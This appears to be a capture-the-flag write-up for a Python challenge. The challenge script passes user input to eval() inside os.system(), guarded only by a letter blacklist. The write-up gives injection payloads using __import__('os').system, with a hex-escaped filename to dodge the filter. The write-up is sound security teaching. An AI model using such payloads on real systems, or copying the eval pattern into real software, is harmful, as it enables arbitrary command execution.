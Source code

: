PYTHON SANDBOX EXPLOIT

FOR MORE SUCH EXPLOITS REFER:[https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes)

so this was one of the good question relating python

if you look at the source code :

#!/usr/local/bin/python

import os

FLAG_FILE = "FLAG"

def get_input() -> int:

print(''' ,#####,

#_ _#

|a` `a|

| u | ________________________

\ = / | WAYYANG |

|\___/| < TERMINAL v1.0 |

___ ____/: :\____ ___ |________________________|

.' `.-===-\ /-===-.` '.

/ .-"""""-.-"""""-. \

/' =:= '\

.' ' .: o -=:=- o :. ' `.

(.' /'. '-.....-'-.....-' .'\ '.)

/' ._/ ". --:-- ." \_. '\

| .'| ". ---:--- ." |'. |

| : | | ---:--- | | : |

\ : | |_____._____| | : /

/ ( |----|------| ) \

/... .| | | | |. ...\

|::::/'' jgs / | \ ''\::::|

'"""" /' .L_ `\ """"'

/'-.,__/` `\__..-'\

; / \ ;

: / \ |

| / \. |

|`../ | ,/

( _ ) | _)

| | | |

|___| \___|

:===| |==|

\ / |__|

/\/\ /"""`8.__

|oo| \__.//___)

|==|

\__/''')

print("What would you like to do today?")

print("1. Weather")

print("2. Time")

print("3. Tiktok of the day")

print("4. Read straits times")

print("5. Get flag")

print("6. Exit")

choice = int(input(">> "))

return choice

if __name__ == '__main__':

choice = get_input()

if choice == 1:

print("CLEAR SKIES FOR HANDSOME MEN")

elif choice == 2:

print("IT'S ALWAYS SEXY TIME")

elif choice == 3:

print("[https://www.tiktok.com/@benawad/video/7039054021797252399")](https://www.tiktok.com/@benawad/video/7039054021797252399)

elif choice == 4:

filename = input("which news article you want babe :) ")

not_allowed = [char for char in FLAG_FILE]

for char in filename:

if char in not_allowed:

print("NICE TRY. WAYYANG SEE YOU!!!!!")

os.system(f"cat news.txt")

exit()

try:

**os.system(f"cat {eval(filename)}")** ##this line##

except:

pass

elif choice == 5:

print("NOT READY YET. MAYBE AFTER CTF????")

look at “this line” when we choose 4 option anf don't give the filename as the characters in the array not_allowed i.e = [F L A G]

we get to evaluate a “filename” variable in the try section, thus this is the loophole of eval function we can a python sandbox code there as it acts as a sandbox,

this by giving the filename as : __import__('os').system('ls')

we get list of all files and thus run the command:

__import__('os').system('cat \x46\x4c\x41\x47')

this FLAG name is is converted to hexadecimal value as linux uses UTF-8 encoding to encode filenames with delimiter as /x
